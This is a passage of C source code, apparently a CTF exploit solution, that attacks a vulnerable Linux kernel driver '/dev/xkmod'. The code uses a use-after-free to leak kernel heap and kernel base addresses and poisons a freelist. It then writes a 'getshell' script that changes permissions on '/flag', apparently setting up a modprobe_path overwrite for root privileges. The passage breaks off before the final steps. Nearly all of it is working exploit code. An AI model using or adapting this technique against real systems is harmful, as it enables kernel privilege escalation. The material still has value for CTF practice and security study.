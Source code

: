 ```assembly


void readBuf(int dev_fd, Data *data){
    ioctl(dev_fd, 0x7777777, data);
}


#define ROOT_SCRIPT_PATH  "/home/getshell"
#define MODPROBE_PATH 0xffffffff82444700


int main(void){
    bindCore(0);

    int dev_fd[5];
    for (int i = 0; i < 5; i++) {
        dev_fd[i] = open("/dev/xkmod", O_RDONLY);
    }


    Data data;
    data.ptr = malloc(0x1000);
    data.offset = 0;
    data.length = 0x50;
    memset(data.ptr, 0, 0x1000);


    allocBuf(dev_fd[0], &data);
    editBuf(dev_fd[0], &data);
    close(dev_fd[0]);

    readBuf(dev_fd[1], &data);
    printf("%x\n", data.ptr[0]);

    size_t kernel_heap_leak = data.ptr[0];
    size_t page_offset_base = kernel_heap_leak & 0xfffffffff0000000;
    printf("%x\n", page_offset_base);
    

    data.ptr[0] = page_offset_base + 0x9d000 - 0x10;
    data.offset = 0;
    data.length = 8;
    editBuf(dev_fd[1], &data);
    allocBuf(dev_fd[1], &data);
    allocBuf(dev_fd[1], &data);
    

    data.length = 0x40;
    readBuf(dev_fd[1], &data);
    if ((data.ptr[2] & 0xfff) != 0x30) {
        printf("[!] invalid data leak: 0x%lx\n", data.ptr[2]);
    }
    size_t kernel_base = data.ptr[2] - 0x30;
    size_t kernel_offset = kernel_base - 0xffffffff81000000;


    char root_cmd[] = "#!/bin/sh\nchmod 777 /flag";
    size_t root_script_fd = open(ROOT_SCRIPT_PATH, O_RDWR | O_CREAT);
    write(root_script_fd, root_cmd, sizeof(root_cmd));
    close(root_script_fd);
    system("chmod +x " ROOT_SCRIPT_PATH);

    allocBuf(dev_fd[1], &data);
```
